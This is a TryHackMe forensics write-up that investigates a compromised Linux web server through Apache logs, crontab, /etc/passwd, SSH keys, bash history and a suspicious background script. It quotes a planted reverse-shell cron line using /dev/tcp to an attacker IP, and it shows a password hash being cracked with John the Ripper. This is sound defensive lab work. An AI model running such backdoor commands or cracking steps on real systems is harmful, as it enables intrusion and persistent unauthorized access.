

# Linux Forensics

**Date:** 04, June, 2021

**Author:** Dhilip Sanjay S

---

[Click Here](https://tryhackme.com/room/linuxserverforensics) to go to the TryHackMe room.

## Apache Log Analysis 1

- The most significant attack surface on the server is probably the web service.
- Fortunately, the Apache access log keeps a history of all of the requests sent to the webserver and includes:
    - Source IP address
    - Response code & Length
    - User-Agent

- **User-Agent** - We can also use this string to identify traffic from potentially malicious tools as scanning tools like **Nmap, SQLmap, DirBuster and Nikto** leak their identity's through default user-agent strings.

### How many different tools made requests to the server?
- **Answer:** 2
- curl and nmap

### Name a path requested by Nmap.
- **Answer:** /nmaplowercheck1618912425 
- **Steps to Reproduce:** 

```bash
cat access.log | grep Nmap
192.168.56.24 - - [20/Apr/2021:09:53:46 +0000] "OPTIONS / HTTP/1.1" 200 181 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.56.24 - - [20/Apr/2021:09:53:46 +0000] "OPTIONS / HTTP/1.1" 200 181 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.56.24 - - [20/Apr/2021:09:53:46 +0000] "GET / HTTP/1.1" 200 2495 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.56.24 - - [20/Apr/2021:09:53:46 +0000] "PROPFIND / HTTP/1.1" 405 522 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.56.24 - - [20/Apr/2021:09:53:46 +0000] "POST / HTTP/1.1" 200 2495 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.56.24 - - [20/Apr/2021:09:53:46 +0000] "GET /nmaplowercheck1618912425 HTTP/1.1" 404 454 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
```

---

## Web Server Analysis

- Web scanners are run against servers pretty much all the time, so this traffic is not out of the ordinary. 
- Have a look around the site for potential attack vectors. 

### What page allows users to upload files?
- **Answer:** contact.php
- **Steps to Reproduce:** 

```bash
fred@acmeweb:/var/log/apache2$ cat access.log | grep '[a-zA-Z]\{7\}\.php'
192.168.1.119 - - [20/Apr/2021:09:14:13 +0000] "GET /contact.php HTTP/1.1" 200 966 "http://192.168.1.134/about.html" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.72 Safari/537.36"
192.168.1.119 - - [20/Apr/2021:09:14:18 +0000] "GET /index.html HTTP/1.1" 200 1253 "http://192.168.1.134/contact.php" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.72 Safari/537.36"
192.168.56.8 - - [20/Apr/2021:09:23:34 +0000] "GET /contact.php HTTP/1.1" 200 966 "http://192.168.56.9/about.html" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
192.168.56.8 - - [20/Apr/2021:09:23:35 +0000] "GET /index.html HTTP/1.1" 200 1252 "http://192.168.56.9/contact.php" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
```



### What IP uploaded files to the server?
- **Answer:** 192.168.56.24
- **Steps to Reproduce:** 

```bash
fred@acmeweb:/var/log/apache2$ cat access.log | grep 'POST'
192.168.56.24 - - [20/Apr/2021:09:53:46 +0000] "POST / HTTP/1.1" 200 2495 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.56.24 - - [20/Apr/2021:09:53:46 +0000] "POST /sdk HTTP/1.1" 404 454 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
Binary file (standard input) matches
```

### Who left an exposed security notice on the server?
- **Answer:** Fred
- **Steps to Reproduce:** 
    - Filter out the noise from the log files:

```bash
fred@acmeweb:/var/log/apache2$ cat access.log | grep -i 'dirbuster'| grep -v '404' | cut -d "\"" -f2 | tee /dev/shm/dirb.log
fred@acmeweb:/var/log/apache2$ wc /dev/shm/dirb.log 
 100  302 2665 /dev/shm/dirb.log
fred@acmeweb:/var/log/apache2$ sort -u /dev/shm/dirb.log -o /dev/shm/dirb.log 
fred@acmeweb:/var/log/apache2$ wc /dev/shm/dirb.log 
  55  167 1884 /dev/shm/dirb.log
fred@acmeweb:/var/log/apache2$ cat /dev/shm/dirb.log 
Binary file (standard input) matches
[..snip..]
GET /resources/development/2021/docs/SECURITY.md HTTP/1.1
[..snip..]
```

- Check the SECURITY.md file:

```bash
$ cat SECURITY.md 
we have to really got to sort out the contact page theres **NO** validation whatsoever.I can't belive we haven't been hacked yet - Fred.
we have to really got to sort out the contact page theres **NO** validation whatsoever.I can't belive we haven't been hacked yet - Fred.
```

---

## Persistence Mechanism 1

- There are multiple ways to maintain persistence in most Linux distributions including but not limited to:
    - cron
    - Services/systemd
    - bashrc
    - Kernel modules
    - SSH keys

### What command and option did the attacker use to establish a backdoor?
- **Answer:** sh -i
- **Steps to Reproduce:** 

```bash
fred@acmeweb:/var/log/apache2$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*  *    * * *   root2   sh -i >& /dev/tcp/192.168.56.206/1234 0>&1
```

---

## User Accounts

- `/etc/passwd`  - contains the names of most of the accounts on the system.  Should have open read permissions and should not contain password hashes. 
- `/etc/shadow` -  contains names but should also contain password hashes.  Should have strict permissions.


### What is the password of the second root account?
- **Answer:** mrcake
- **Steps to Reproduce:** 
    - Check out both the files:

    ```bash
    fred@acmeweb:/var/log/apache2$ cat /etc/passwd
    [..snip..]
    fred:x:1000:1000:fred:/home/fred:/bin/bash
    root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash

    fred@acmeweb:/var/log/apache2$ cat /etc/shadow
    cat: /etc/shadow: Permission denied
    ```

    - If there is a `x` after the first colon, then it means that the password hash is stored in the `/etc/shadow` file.
    - But for the **root2** account, the password hash is in the place of x.
    - Cracking the hash:

    ```bash
    john root2.txt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (descrypt, traditional crypt(3) [DES 256/256 AVX2])
    Proceeding with single, rules:Single
    Press 'q' or Ctrl-C to abort, almost any other key for status
    Almost done: Processing the remaining buffered candidate passwords, if any.
    Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
    Warning: Only 1 candidate left, minimum 256 needed for performance.
    Proceeding with incremental:ASCII
    Warning: MaxLen = 13 is too large for the current hash type, reduced to 8
    mrcake           (?)
    1g 0:00:00:46 DONE 3/3 (2021-06-04 14:39) 0.02152g/s 6809Kp/s 6809Kc/s 6809KC/s mr.ifc..mrcu3b
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
    ```
    
---


## Apache Log Analysis 2

- There are a few other ways of identifying traffic originating from scanners. 
    - The `time between each request` is a good metric for most tools.
    - Identify individual tools from `signatures left in the requests`; for example, Nmap will send HTTP requests with a random **non-standard method** when performing certain enumeration tasks.
    - More aggressive tools can also be identified simply from the `number of requests` sent during any given attack; directory brute-forcing tools are a perfect example of this and are likely to fall foul of banning systems like **fail2ban**.


- Fail2ban is a daemon that can be run on your server to dynamically block clients that fail to authenticate correctly with your services repeatedly.
- Fail2Ban is an intrusion prevention software framework that protects computer servers from brute-force attacks. 
- It is written in the Python programming language.


- A poorly designed site may also freely grant valuable information without the need for aggressive tools. - In this case, the site uses sequential IDs for all of the products making. 
- It easily scrapes every single product or finds the total size of the product database by simply increasing the product ID until a 404 error occurs.

### Name one of the non-standard HTTP Requests.
- **Answer:** 
- **Steps to Reproduce:** 

```bash
fred@acmeweb:/var/log/apache2$ cat access.log
[..snip..]
192.168.56.173 - - [20/Apr/2021:09:50:48 +0000] "GET /products.html HTTP/1.1" 200 4182 "-" "curl/7.74.0"
192.168.56.206 - - [20/Apr/2021:13:30:15 +0000] "\x16\x03" 400 0 "-" "-"
192.168.56.206 - - [20/Apr/2021:13:30:15 +0000] "GXWR / HTTP/1.1" 501 498 "-" "Mozilla/5.0 (iPhone; CPU iPhone OS 12_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML"
[..snip..]
```

### At what time was the Nmap scan performed? (format: HH:MM:SS)
- **Answer:** 13:30:15

---

## Persistence Mechanism 2

- SSH-keys are another excellent way of maintaining access, so it might be worth looking for additions to the `authorized_keys` file. 

### What username and hostname combination can be found in one of the authorized_keys files? (format: username@hostname)
- **Answer:** kali@kali
- **Steps to Reproduce:** 

```bash
fred@acmeweb:/$ sudo -l
[sudo] password for fred: 
Matching Defaults entries for fred on acmeweb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on acmeweb:
    (ALL : ALL) ALL

fred@acmeweb:/$ sudo su
root@acmeweb:/# cd 
root@acmeweb:~# ls -la
total 36
drwx------  6 root root 4096 Apr 20 13:40 .
drwxr-xr-x 24 root root 4096 Apr 20 08:51 ..
-rw-------  1 root root   22 Apr 20 13:40 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Apr 20 13:39 .cache
drwx------  3 root root 4096 Apr 20 13:36 .gnupg
drwxr-xr-x  3 root root 4096 Apr 20 13:40 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Apr 20 08:58 .ssh
root@acmeweb:~# cd .ssh/
root@acmeweb:~/.ssh# ls
authorized_keys
root@acmeweb:~/.ssh# cat authorized_keys 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDYCKt0bYP2YIwMWdJWqF3lr3Drs3sS9hiybsxz9W6dG6d15mg0SVMSe5H+rPM6VmzOKJaVpDjT1Ll5eR6YcbefTF2bMXHveyvcrzDxyZeWdgBs5u8/4DZxEN6fq6IZRRftmrMgMzSnpmdCm8kvacgq3lIjLx/sKAlX9GqPIz09t0Rk5MB7zk3lg1wdTZxZwwCHPbZW7mGlVcxNBB9wdbAmcvezscoF0i7v0tY8iCoFlrBysOMBMrEJji2UONtI/wrt7AvoK+gshiG7VTjZ2oQBacnyHRToXHxOZiSIbCQrJ6rCxa32QOGQNmAVIucqYjRbJedz0NbGq7M9B+hBmG/mdtsoGOXQKyzoUlAbulRXjSVtManiUyq9im1HBHfuduiBrbfcOKz24NMT7RaIsPsZCUCpfHaT7S5XplQypAjkxABds8jod/TXcTYibdWE9scrUUidgCsPELQlKEfhhZ8+cyjbMCGNB5LOgieJSVk6D1JC97TaFNi4X9/9i2UA+L0= kali@kali
```

---


## Program Execution History

- Of course, adding a public key to root's authorized_keys requires root-level privileges so, it may be best to look for more evidence of privilege escalation. 
- In general, Linux stores a tiny amount of **programme execution history** when compared to Windows but, there are still a few valuable sources, including:
    - `bash_history` - Contains a history of commands run in bash; this file is well known, easy to edit and sometimes disabled by default.
    - `auth.log` - Contains a history of all commands run using sudo.
    - `history.log (apt)` - Contains a history of all tasks performed using apt - is useful for tracking programme


- `systemd services` - keep logs in the `journald system`
- These logs are kept in a **binary format** and have to be read by a utility like `journalctl`. This binary format comes with some advantages; however, each journal is capable of validating itself and is harder to modify.
- To view: `journalctl /lib/systemd/systemd-journald`


### What is the first command present in root's bash_history file?
- **Answer:** nano /etc/passwd
- **Steps to Reproduce:** 

```bash
root@acmeweb:~# cat .bash_history 
nano /etc/passwd
exit
```

---

### Peristence Mechanism 3

- **Malware** can also maintain persistence using systemd as scripts run under systemd can run in the background and restart whenever the system is booted or whenever the script crashes. 
- It is also relatively easy to **conceal malicious scripts** as they can blend in with other services
- `systemd services` are defined in `.service` files which can contain:
    - The command that runs whenever the service starts
    - The user the service runs as
    - An optional description 


- Running `systemctl` will list all of the services loaded into the system.
- It might be worth adding `--type=service --state=active` to the command as it will reduce the list to services that are running. 
- Once the name of a suspicious service is found, more information can then be extracted by running `systemctl status <service name>`



### Figure out what's going on and find the flag.
- **Answer:** gh0st_1n_the_machine
- **Steps to Reproduce:** 

```bash
fred@acmeweb:~$ ps aux
[..snip..]
root      1533  0.1  1.0  13496  5220 ?        Ss   09:44   0:00 /bin/bash /etc/network/ZGtsam5hZG1ua2Fu.sh
root      1750  0.0  0.1   6184   824 ?        S    09:48   0:00 sleep 10
[..snip..]

fred@acmeweb:~$ cat /etc/network/ZGtsam5hZG1ua2Fu.sh
##[gh0st_1n_the_machine]
## 
declare -a error_messages
error_messages[1]='ATTENTION!: THE BITBUCKET IS ALMOST FULL'
error_messages[2]='ACHTUNG!: DAS KOMPUTERMASCHINE IS NICHT GUD'
[..snip..]
```

---